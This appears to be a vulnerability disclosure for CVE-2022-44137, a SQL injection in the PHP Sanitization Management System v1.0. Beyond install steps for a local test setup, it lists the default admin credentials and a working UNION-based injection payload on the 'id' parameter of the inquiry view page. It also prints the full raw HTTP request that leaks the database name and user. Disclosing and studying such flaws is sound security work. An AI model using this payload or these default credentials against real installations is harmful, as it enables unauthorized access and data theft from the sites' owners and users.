

# Sanitization Management System v1.0 has SQLI in /php-sms/admin/?page=inquiries/view_inquiry
CVE-2022-44137
Author: y1s3m0

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

## How to Run?

### Requirements

-   Download and Install any local web server such as XAMPP.
-   Download the provided source code zip file. (download button is located below)

### System Installation/Setup

-   Enable the GD Library in your php.ini file.
-   Open your XAMPP Control Panel and start Apache and MySQL.
-   Extract the downloaded source code zip file.
-   Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
-   Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
-   Create a new database named sms_db.
-   Import the provided SQL file. The file is known as sms_db.sql located inside the database folder.
-   Browse the Sanitization Management System in a browser. i.e. http://localhost/php-sms/.

### Admin Default Access:

-   Username: admin
-   Password: admin123

## Payload

database:sms_db
database_user:root@localhost

[+] Payload: /php-sms/?p=admin/inquiries/view_inquiry&id=99999999999999999' union select 1,2,database(),user(),5,6,7,8,9 --+ // Leak place ---> id

```sql
GET /php-sms/?p=admin/inquiries/view_inquiry&id=99999999999999999%27%20union%20select%201,2,database(),user(),5,6,7,8,9%20--+ HTTP/1.1
Host: phpcms:8081
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9,ja;q=0.8,vi;q=0.7
Cache-Control: no-cache
Cookie: PHPSESSID=ejfc8c9qlifbn82hovfq5nq74n
DNT: 1
Pragma: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
```


